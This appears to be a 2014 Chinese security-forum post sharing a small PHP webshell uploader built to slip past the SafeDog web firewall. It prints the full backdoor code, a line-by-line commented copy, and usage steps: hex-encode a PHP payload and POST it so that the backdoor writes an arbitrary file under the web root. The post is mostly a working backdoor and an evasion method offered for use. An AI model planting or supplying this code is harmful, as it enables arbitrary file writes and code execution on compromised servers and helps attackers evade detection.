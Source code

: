 php绕过安全狗检测的小马分享

zph | 2014-08-28 15:10


直接上代码：
  
    <?php
    $p=realpath(dirname(__FILE__)."/../").$_POST["a"];
    $t=$_POST["b"];
    $tt="";
    for ($i=0;$i<strlen($t);$i+=2) $tt.=urldecode("%".substr($t,$i,2));
    @fwrite(fopen($p,"w"),$tt);
    echo "success!";
    ?>


分析利用&过狗：

    <?php
    $p=realpath(dirname(__FILE__)."/../").$_POST["a"]; //定义$p为根目录的物理路径+$_POST["a"]的内容
    $t=$_POST["b"]; //定义$t为$_POST["b"]的内容
    $tt=""; //定义$tt为空
    for ($i=0;$i<strlen($t);$i+=2) $tt.=urldecode("%".substr($t,$i,2)); //for循环次数是$t长度/2，每循环一次就让$tt加上“%xx”这样的编码
    @fwrite(fopen($p,"w"),$tt); //写入文件地址是$p，内容是$tt
    echo "success!";
    ?>


利用方法：

将写入的内容用url编码，比如

    <?php phpinfo();?>

编码后为：

    %3C%3F%70%68%70%20%70%68%70%69%6E%66%6F%28%29%3B%3F%3E

去掉其中的%，得到：

    3C3F70687020706870696E666F28293B3F3E

然后访问后门，将POST内容改为：

    a=/111.php&b=3C3F70687020706870696E666F28293B3F3E

即可写入内容

过狗:
 ![test](img/20140901-01.png)

 ![test](img/20140901-02.png)


url:http://zone.wooyun.org/content/14846
